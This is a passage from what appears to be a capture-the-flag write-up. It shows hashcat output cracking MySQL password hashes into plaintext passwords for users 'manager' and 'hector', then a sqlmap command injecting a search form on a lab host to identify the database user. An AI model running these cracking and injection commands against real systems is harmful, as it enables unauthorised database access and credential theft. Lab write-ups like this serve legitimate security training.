 ```console
Status...........: Exhausted
Hash.Type........: MySQL4.1/MySQL5
Hash.Target......: hash
Time.Started.....: Wed Apr 15 09:47:56 2020 (2 secs)
Time.Estimated...: Wed Apr 15 09:47:58 2020 (0 secs)
Guess.Base.......: File (wordlists\SecLists\Passwords\rockyou.txt)
Guess.Mod........: Rules (rules\best64.rule)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   596.3 MH/s (152.12ms) @ Accel:512 Loops:77 Thr:256 Vec:1
Recovered........: 2/3 (66.67%) Digests, 0/1 (0.00%) Salts
Progress.........: 1104517568/1104517568 (100.00%)
Rejected.........: 238238/1104517568 (0.02%)
Restore.Point....: 14344384/14344384 (100.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-77 Iteration:0-77
Candidates.#1....: 984559 -> *amos!
Hardware.Mon.#1..: Temp: 51c Fan:  0% Util: 51% Core:1530MHz Mem:4001MHz Bus:16

Started: Wed Apr 15 09:47:52 2020
Stopped: Wed Apr 15 09:47:59 2020

guanicoe@pc C:\Users\guanicoe\Documents\Hashcat\hashcat-5.0.0>hashcat -m 300 --show hash
cfe3eee434b38cbf709ad67a4dcdea476cba7fda:l3tm3!n
0e178792e8fc304a2e3133d535d38caf1da3cd9d:l33th4x0rhector
```

- `manager : l3tm3!n`
- `hector : l33th4x0rhector`

We can ask `sqlmap` which user we currently are

```sh
$sqlmap -u http://10.10.10.167/search_products.php --data productName=1 --proxy http://127.0.0.1:8080 --current-user
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.4.3#stable}
|_ -| . [)]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[...]

[17:06:19] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[17:06:19] [INFO] fetching current user
current user: 'manager@localhost'
[17:06:19] [INFO] fetched data logged to text files under '/root/.sqlmap/output/10.10.10.167'

[*] ending @ 17:06:19 /2020-04-19/
```

So we are indeed accessing the database as `manager`. So second question we can ask is: what privileges does manarger have ?
